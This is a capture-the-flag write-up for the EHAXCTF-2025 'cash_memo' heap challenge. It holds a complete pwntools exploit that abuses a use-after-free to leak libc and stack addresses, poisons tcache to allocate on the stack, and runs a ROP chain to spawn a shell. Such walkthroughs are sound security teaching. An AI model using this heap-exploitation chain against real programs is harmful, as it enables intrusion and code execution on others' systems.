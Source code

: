 was a classic heap challenge with 52 solves at the end of the ctf

people are getting better day by day with heap...

![cashmemo](https://github.com/4rsp/writeups/blob/main/EHAXCTF-2025/cash_memo/cashmemo.png)

UAF vulnerability when free and the challenge is very generous with how many actions we can take

i leaked the libc and the stack to do ROP (from saved rip of malloc)

could definitely save time and just use malloc hooks... (glibc 2.31)

but i forgot about them when i was solving the challenge lol

anyway, here is the infamous do.py (with some comments)

```
#!/usr/bin/env python3

from pwn import *
context.arch = 'amd64'
'''
p = gdb.debug("./chall_patched", gdbscript="""
    c
""")
'''
p = remote("chall.ehax.tech", 1925)

libc = ELF("./libc.so.6")

def malloc(idx, size, data):
    p.sendline(b"1")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"big?", size.encode("utf-8"))
    p.sendlineafter(b"payload?", data)

def free(idx):
    p.sendline(b"2")
    p.sendlineafter(b"index?", idx.encode("utf-8"))

def edit(idx, data):
    p.sendline(b"3")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"contents?", data)

def view(idx):
    p.sendline(b"4")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.recvuntil(b">")
    return p.recvline().strip()

# leak libc via a chunk in unsortedbin
for i in range(9):                                                                                                                                                                          
    malloc(f"{i}", "128", b"CCCC")                                                                                                                                                          
                                                                                                                                                                                            
for i in range(8):
    free(f"{i}")

libc_leak = int.from_bytes(view("7"), 'little')
libc_base = libc_leak - 0x1ecbe0
env = libc_base + 0x1ef600 
print(f"libc base: {hex(libc_base)}")
print(f"environ: {hex(env)}")

# fill tcache
for i in range(9):
    malloc(f"{i}", "128", b"DDDD")

# leak heap for no reason :p
malloc("0", "20", b"AAAA")
malloc("1", "20", b"BBBB")
free("1")
free("0")

heap_leak = int.from_bytes(view("0"), 'little')

# allocate a chunk with a libc address that points to the stack
edit("0", p64(env))
malloc("1", "20", b"")
malloc("2", "20", b"")
free("1")

stack_leak = int.from_bytes(view("1"), 'little')
rip = stack_leak - 0x120
print(f"saved rip: {hex(rip)}")

# allocate a chunk on stack
malloc("3", "60", b"aaaa")
malloc("4", "60", b"bbbb")
free("4")
free("3")
edit("3", p64(rip))
malloc("3", "60", b"aaaa")

# do rop on saved rip of malloc
libc.address = libc_base 
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b"/bin/sh"))

payload = p64(ret) + p64(pop_rdi) + p64(binsh) + p64(libc.symbols['system'])
malloc("4", "60", payload)

# enjoy shell
p.interactive()
```

![flaggg](https://github.com/4rsp/writeups/blob/main/EHAXCTF-2025/cash_memo/flag.png)

***4rsp is learning...***






